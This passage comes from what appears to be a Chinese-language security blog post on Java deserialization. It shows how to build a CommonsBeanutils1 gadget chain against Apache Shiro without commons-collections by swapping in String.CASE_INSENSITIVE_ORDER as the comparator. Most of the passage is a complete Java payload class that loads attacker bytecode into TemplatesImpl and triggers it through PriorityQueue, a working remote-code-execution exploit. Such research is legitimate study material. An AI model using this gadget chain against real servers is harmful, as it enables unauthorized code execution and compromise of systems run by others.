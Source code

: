 ```java
}
```

然后不出意外的话你会在 tomcat 控制台里面得到一个 Exception (

就不截图了, 原因是 BeanComparator 的 `this.comparator` 默认来自 `org.apache.commons.collections.comparators.ComparableComparator`, 但这个类在 commons-beanutils 中又不存在 (很神奇)

所以我们需要自己找一个类似的 Comparator, 并且得保证它有如下特点

1. 来自原生 JDK 或 shiro 默认依赖包
2. 能够被序列化, 即继承了 Serializable 接口

利用 IDEA 可以找到五个符合条件的类

![image-20221218222922695](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182229802.png)

但实际上能用的就只有两个, 分别为 CaseInsensitiveComparator 和 ReverseComparator

![image-20221218223117173](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182231219.png)

![image-20221218223237699](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182232773.png)

最终构造 payload 如下

```java
package com.example;

import com.example.CommonsCollections.Evil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.util.PriorityQueue;

public class CommonsBeanutils1NoCC {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
        byte[] code = clazz.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

//        BeanComparator beanComparator = new BeanComparator(null, Collections.reverseOrder());
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add("1");
        priorityQueue.add("1");

        beanComparator.setProperty("outputProperties");
        Reflection.setFieldValue(priorityQueue, "queue", new Object[]{templatesImpl, templatesImpl});
        Serialization.test(priorityQueue);
//        System.out.println(Arrays.toString(Serialization.serialize(priorityQueue)));
    }
}
```

![image-20221218223542053](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182235282.png)